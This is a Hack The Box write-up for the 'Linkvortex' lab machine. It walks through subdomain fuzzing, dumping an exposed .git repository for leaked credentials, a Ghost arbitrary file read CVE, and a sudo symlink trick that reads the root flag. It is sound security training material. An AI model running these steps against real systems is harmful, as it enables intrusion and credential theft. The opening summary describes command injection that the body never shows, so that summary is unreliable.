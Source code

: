 ```yaml
---
title: "Linkvortex"
date: 2023-11-06
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "linkvortex", "htb walkthrough", "hackthebox", "writeup"]
---
```


This machine simulates a web server vulnerable to blind command injection through an obfuscated input vector. 

Initial access was achieved by chaining subtle response behavior in a URL parameter to identify a command injection sink. With no immediate output, I used time-based payloads to confirm execution. 

The box highlights the importance of error-handling observations and persistence in exploiting seemingly silent vectors. 

Privilege escalation involved misconfigured SUID binaries with unexpected capabilities — a good example of pivoting from web to local enumeration.

## Enumeration

>- Fuzzing subdomain gave `dev.linkvortex.htb`
- `git diff --staged` provides credentials.
- Logging into the admin panel with the credentials shows the version number

### 80-HTTP

#### Directory Fuzzing

```text
http://linkvortex.htb/ghost/assets/
http://linkvortex.htb/assets/
http://dev.linkvortex.htb/.git

ffuf -u http://linkvortex.htb -H "Host: FUZZ.linkvortex.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac
```

![[Pasted image 20250117125044.png]]

#### Web

http://dev.linkvortex.htb

![[Pasted image 20250117124820.png]]

http://linkvortex.htb/ghost/assets/

![[Pasted image 20250117124508.png]]

http://linkvortex.htb/assets/

![[Pasted image 20250117124548.png]]

![[Pasted image 20250117123835.png]]

### Git

```sh
git-dumper http://dev.linkvortex.htb/.git ~/LinkVortex/git
```

![[Pasted image 20250117125449.png]]

```text
0000000000000000000000000000000000000000 299cdb4387763f850887275a716153e84793077d root <dev@linkvortex.htb> 1730322603 +0000	clone: from https://github.com/TryGhost/Ghost.git
```

![[Pasted image 20250117134405.png]]

![[Pasted image 20250117134450.png]]

```text
const email = 'test@example.com';
-            const password = 'thisissupersafe';
+            const password = 'OctopiFociPilfer45';
```

![[Pasted image 20250117140032.png]]

> `admin@linkvortex.htb` worked for the password `OctopiFociPilfer45`

![[Pasted image 20250117140928.png]]

https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028/blob/master/CVE-2023-40028

![[Pasted image 20250117141249.png]]

From git
![[Pasted image 20250117142242.png]]

![[Pasted image 20250117142322.png]]

New credentials found

```text
bob@linkvortex.htb
fibber-talented-worth
```

![[Pasted image 20250117142436.png]]



# Foothold
- CVE 2023-40028 arbitrary file read
- Looking at file output on the git command shows another credentials.
- SSH as bob user.

# Lateral Movement
- N/A

# Privilege Escalation
- Running *lse.sh* shows that the bob user can run `/opt/ghost/clean_symlink.sh` script on all png files.
- `ln -s` to create a symlink on `/root/root/txt`

![[Pasted image 20250117142920.png]]
![[Pasted image 20250117143148.png]]

# clean_symlink.sh
![[Pasted image 20250117143436.png]]

`ln -s ` : Creating a symlink 

```sh
bob@linkvortex:~$ ln -s /root/root.txt abc.txt
bob@linkvortex:~$ ln -s /home/bob/abc.txt abc.png
bob@linkvortex:~$ sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/hyh.png
```

```sh
sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/abc.png
```

![[Pasted image 20250117144045.png]]
